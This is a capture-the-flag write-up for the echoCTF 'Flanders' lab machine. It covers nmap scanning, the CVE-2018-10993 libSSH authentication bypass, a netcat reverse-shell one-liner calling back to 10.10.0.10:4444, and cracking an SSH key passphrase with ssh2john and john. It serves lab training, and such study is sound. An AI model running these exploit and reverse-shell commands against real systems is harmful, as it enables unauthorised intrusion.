 ```yaml
---
layout: post
title: Flanders
feature-img: "assets/img/portfolio/flanders.png"
img: "assets/img/portfolio/flanders.png"
date: 11 Jun 2021
tags: [Lorem, Ipsum]
---
```



[Flanders](https://echoctf.red/target/13)

![](assets/img/flanders.png)

machine description:

Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is Okily Dokily

Catch phrase sounds like a pass phrase, only without space

---

### Enumartion


```
nmap -sC -sV -p- 10.0.40.0

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 20:10 EST
Nmap scan report for 10.0.100.34
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION

6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
ssh-hostkey: 
2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

```

### vulnerability

CVE-2018-10993 libSSH authentication bypass exploit

The libSSH library has flawed authentication/connection state-machine.
Upon receiving from connecting client the MSG_USERAUTH_SUCCESS Message
(as described in RFC4252, sec. 5.1.) which is an authentication response message
that should be returned by the server itself (not accepted from client)
the libSSH switches to successful post-authentication state. In such state,
it impersonates connecting client as server's root user and begins executing
delivered commands. 
This results in opening an authenticated remote-access channel
without any authentication attempts (authentication bypass).


### Exploit 

from hint i understood it server side include.

[CVE-2018-10993](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)


```

python3 cve-2018-10993.py  10.0.100.34  -p 6022 -c 'whoami' 

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
ETSCTF
Socket exception: Bad file descriptor (9)


next i opend revershell 

python3 cve-2018-10993.py  10.0.40.0 -p 6022 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f'

$ whoami
ETSCTF
$ 




```

we logged in as user  ETSCTF




### Privilege escalation


```


ls -la
total 20
drwxr-xr-x 1 ETSCTF root     4096 May 18 07:11 .
drwxr-xr-x 1 ETSCTF www-data 4096 Nov 11  2019 ..
-rw-r--r-- 1 ETSCTF www-data  222 May 18 07:11 known_hosts
-rw------- 1 ETSCTF root     1766 Nov 11  2019 mykey
-rw------- 1 ETSCTF root      399 Nov 11  2019 mykey.pub

```

mykey is owned by root. 


next we can see thet machine is listen - 127.0.0.1:22 --- ssh port 
```


ssh -p 22 -i ~/.ssh/mykey root@127.0.0.1

and i got password for this key :(

there two options to solve this:

1. enumration  -- found the pass from clues in machine description (OkilyDokily)
2. ssh2john 


using ssh2john

python ~/tools/ssh2john.py key > new_key 

and then brutfouce the new_key

$ john new_key

```

